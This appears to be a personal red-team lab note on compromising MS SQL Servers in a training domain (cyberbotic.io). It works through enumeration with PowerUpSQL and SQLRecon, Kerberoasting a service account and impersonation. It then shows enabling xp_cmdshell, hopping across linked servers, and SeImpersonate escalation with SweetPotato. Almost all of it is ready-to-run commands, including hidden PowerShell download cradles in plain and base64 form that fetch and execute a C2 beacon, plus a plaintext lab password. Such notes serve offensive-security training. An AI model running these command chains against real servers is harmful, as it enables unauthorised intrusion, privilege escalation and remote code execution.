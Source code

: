# MS SQL Servers Notes

Tools:
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[SQLRecon](https://github.com/skahwah/SQLRecon) [wiki](https://github.com/skahwah/SQLRecon/wiki/)

enum
```
powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
powershell Get-SQLInstanceDomain
test connection:
powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
Gather more info:
powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
for multiple SQL Servers:
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
Using SQL Recon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

find any users with access 
```
powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
```

**attack sql account itself**

so if we have a ms sql server account we can try kerberoasting it then use beacons make_token with the cracked password, then run this to abuse
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

**with access**

querying
```
powerup:
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
proxychains impacket:
proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
or use proxifier with a sql gui
```

**MS SQL Impersonation**

allows the executing user to assume the permissions of another user without needing their password

queries:
```
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
look up the output IDs:
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```

can use sqlrecon to join these two into one
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

example of using with queries
```
check user and privs:
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
using the execute as to query in the context of the target:
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
```

with sqlrecon to use impersonation mode
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```


## MS SQL Command Execution

using Invoke-SQLOSCmd from PowerupSQL, this enables then disables xp_cmdshell
```
powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

query the usage of xp_cmdshell
```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
to enable:
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

sqlrecons but using the /i to impersonate and run
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

abusing to get a beacon on the sql server
steps:
1. create reverse port forward to tunnel traffic through our C2 chain
2. host smb beacon
3. download and execute beacon, with either b64 cradle or not
4. then link the new beacon

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
or base64:
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```

## MS SQL Lateral Movement

sql servers have links which allows a db instance to access data from an external source

enumerate
```
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
or:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

can send queries to linked source with openquery
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
or sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```

check xp-cmdshell:
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
```

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

query our link for more links
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
or use powerupsql to keep looking recursively for them, this also shows the privs account the sql is set up with:
powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
query this with lwhoami for sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```

**get beacon on new link**

keep in mind that the new link my only be able to talk to the new sql server we already popped, so keep that in mind to set up the port forward for traffic. CS will double hop it over so don't worry about setting up the forward to a different one just do so like below in the beacon that can talk to the link.

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80

with Openquery to execute:
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc <base64 powershell cradle>''')

or with AT syntax:
EXEC('xp_cmdshell ''powershell -w hidden -enc <base64 cradle>''') AT [sql-1.cyberbotic.io]

```

## MS SQL Privilege Escalation

Tools:
[SweetPotato](https://github.com/CCob/SweetPotato)

typical for sql servers to run as NT Service\MSSQLSERVER, we can upgrade these permissions by abusing SeImpersonatePrivilege
```
check privs
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <powershell download cradle>
connect localhost 4444
```

doing a connect localhost because we used a tcp beacon which binds to localhost when ran


